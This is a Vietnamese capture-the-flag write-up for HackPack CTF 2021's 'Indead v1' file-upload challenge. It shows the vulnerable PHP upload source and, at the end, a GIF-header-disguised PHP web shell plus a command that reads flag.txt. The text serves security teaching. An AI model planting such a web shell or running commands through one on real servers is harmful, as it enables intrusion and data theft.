

# Indead v1

## Description

Job posting website for security experts, pentesters and hackers. http://indead-upload-avatar.ctf2021.hackpack.club

## Point 

50 point

## Hint

flag.txt is located in /var/www/

## Solution

Đây là một bài upload file , nó chỉ cho phép upload lên ảnh :


Sau khi thử scan web với dirsearch tôi tìm thấy một số file robots.txt, core.php, index.php.

> robots.txt
```
User-agent: *
Disallow: /*phps$ 
```

Điều này có nghĩa là ta có thể xem source code các file php dưới định dạng phps.

> index.phps

```
<?php
require_once('core.php');
?>

<!doctype html>
<html lang="en" class="h-100">

<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="generator" content="Hugo 0.80.0">
    <title>Indead · Hackpack CTF-2021</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/css/bootstrap.min.css"
        integrity="sha384-B0vP5xmATw1+K9KRQjQERJvTumQW0nPEzvF6L/Z6nronJ3oUOFUFpCjEUQouq2+l" crossorigin="anonymous">
    <meta name="theme-color" content="#563d7c">


    <style>
        .bd-placeholder-img {
            font-size: 1.125rem;
            text-anchor: middle;
            -webkit-user-select: none;
            -moz-user-select: none;
            -ms-user-select: none;
            user-select: none;
        }

        @media (min-width: 768px) {
            .bd-placeholder-img-lg {
                font-size: 3.5rem;
            }
        }
    </style>
</head>

<body class="d-flex flex-column h-100">
    <nav class="navbar navbar-expand-lg navbar-light bg-light">
    <a class="navbar-brand" href="/">
        
    </a>
    <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
        <span class="navbar-toggler-icon"></span>
    </button>
    <div class="collapse navbar-collapse" id="navbarNav">
        <ul class="navbar-nav">
        <li class="nav-item active">
            <a class="nav-link" href="/">Home</a>
        </li>
        </ul>
    </div>
    </nav>
    <!-- Begin page content -->
    <main role="main" class="flex-shrink-0">
        <div class="container">
            <h1 class="mt-5">Indead</h1>

            <p class="lead">Job postings for security experts, pentesters & hackers.<br>
                Upload your picture so that our cool AI can find the best fit for you.</p>


            <form action="/" method="POST" enctype="multipart/form-data">
                <? if ( isset ($error) && $error !== '') {?> 
                <div class="alert alert-danger">
                <p>
                <? echo $error; ?>
                </p>
                </div>
                <? } ?>
                <div class="form-row">
                    <div class="form-group col-md-6">
                        <input type="file" name="avatar">
                    </div>
                </div>
                <button type="submit" class="btn btn-success">Upload picture</button>
            </form>
        </div>
        <? if ($_SERVER['REQUEST_METHOD'] === 'POST') { ?>
        <div class="container mt-5">
            <div class="row">
                <div class="col-12">
                <? if ($uploadOk == 1) { ?>
                    <h1>Thanks for uploading picture</h1>
                    " alt="your uploaded avatar" style="height: 100px; width: 100px" class="rounded-circle">
                    <div class="row">
                        <div class="col-12">
                            <? 
                                $content = file_get_contents('positions.json');
                                $positions = json_decode($content, true);
                                // var_dump($positions);
                                foreach ($positions as $key => $value) {
                            ?>
                                <div class="card my-3">
                                    <div class="card-body">
                                        <h4 class="card-title">
                                            <? echo $key;?>
                                        </h4>
                                        <h6 class="card-subtitle text-muted mb-2">
                                            Location: <? echo $value['location'];?> | Salary: <? echo $value['salary'];?>
                                        </h6>
                                        <p class="card-text">
                                            <? echo $value['description'];?>
                                        </p>
                                    </div>
                                </div>
                            <?    } 
                            ?>
                        </div>
                    </div>
                <? } else { ?>
                    <h1>Upload was not successful. Try again</h1>
                <? } ?>
                </div>
            </div>
        </div>
        <? } ?>
    </main>

    <footer class="footer mt-auto py-3">
        <div class="container">
            <span class="text-muted">Hackpack CTF 2021</span>
        </div>
    </footer>
</body>

</html>
```

> core.phps

```
<?php 

$uploadOk = 0;
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $filename = basename($_FILES["avatar"]["name"]);
    $target_dir = "very_long_directory_path/";
    $target_file = $target_dir . $filename;
    
    // Check if image file is a actual image or fake image
    $check = getimagesize($_FILES["avatar"]["tmp_name"]);
    if($check === false) {
        exit(sprintf('%s is not an image', $filename));
    }

    // Check file size
    if ($_FILES["avatar"]["size"] > 500000) {
        exit(sprintf('%s is too large', $filename));
    }

    if (move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file)) {
        $uploadOk = 1;
    } else {
        exit("Sorry, there was an error uploading your file.");
    }

}
?>
```

Không có gì đáng nói ở trong file index.php, tuy nhiên ta có thể thấy một đoạn code có dạng :

```
$filename = basename($_FILES["avatar"]["name"]);
    $target_dir = "very_long_directory_path/";
    $target_file = $target_dir . $filename;
```

Ta có thể thấy khi upload file nên file sẽ được lưu tại đường dẫn  very_long_directory_path/file_name .

Tôi thử tải lên một file shell.php và truy cập vào đường dẫn tương ứng thì có một lỗi được hiện lên .



Sau một hồi google search thì tôi đã tìm thấy một payload (https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
OK, sửa lại file shell và upload sau đó RCE.

> shell.php
```
GIF89a;
<?
   if(isset($_GET['cmd'])){
     $output = system($_GET['cmd']);
?>
```
> ?cmd=cat /var/www/flag.txt
## Flag

flag{y3t_an0ther_file_uplo@d_vuln}


